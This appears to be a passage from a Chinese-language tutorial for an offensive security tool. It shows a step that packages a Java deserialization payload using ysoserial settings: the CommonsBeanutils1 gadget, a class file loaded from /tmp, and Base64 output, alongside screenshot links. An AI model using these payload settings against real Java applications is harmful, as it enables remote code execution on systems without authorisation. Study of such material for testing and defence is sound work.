 ![](./img/1708847507811.png)

2、使用 `辅助模块` 进行序列化数据封装

```text
yso_gadget=CommonsBeanutils1
yso_cmd=class_file:/tmp/HttpClientUtil.class
format_type=BASE64
```

![](./img/1708847533913.png)

